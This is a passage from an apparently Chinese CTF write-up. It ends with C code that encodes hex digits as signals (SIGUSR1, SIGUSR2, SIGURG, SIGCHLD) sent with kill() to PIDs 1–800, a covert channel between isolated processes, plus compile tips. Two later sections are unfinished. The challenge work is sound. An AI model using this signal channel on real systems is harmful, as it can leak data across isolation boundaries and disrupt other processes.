      break;
    case 0b10:
      kill(pid, SIG10);
      break;
    case 0b11:
      kill(pid, SIG11);
      break;
    default:
      break;
  }
}
```

```c common.h
#define PID_START 1
#define PID_END 800

// to send one hex digit 0bxyzw
// send zw
// send xy

#define SIG00 SIGUSR1
#define SIG01 SIGUSR2
#define SIG10 SIGURG
#define SIG11 SIGCHLD
```

</CH.Code>

- 代码里其实还有很多可以改进的地方
	- 比如好多没用到的变量我没删
	- 有几处没用到的分支
	- Bob 会一直发 _`SIGWINCH`_ 信号，其实可以让他在收到第一个数字时停下来。

:::danger

如果你和我一样，使用带有较高版本的 GLIBC 的 Linux 操作系统

那么你提交时会看到这个报错：`/lib/x86_64-linux-gnu/libc.so.6: version 'GLIBC_2.34' not found (required by )`

你可以开一个容器来编译，题目已经提供了 `Dockerfile`.

**Update**: 经 CSL 大佬提醒，静态链接就行，我是傻X。

:::

</CH.Scrollycoding>

## 量子藏宝图

还没写完

## 企鹅拼盘（Level 1-2）

还没写完
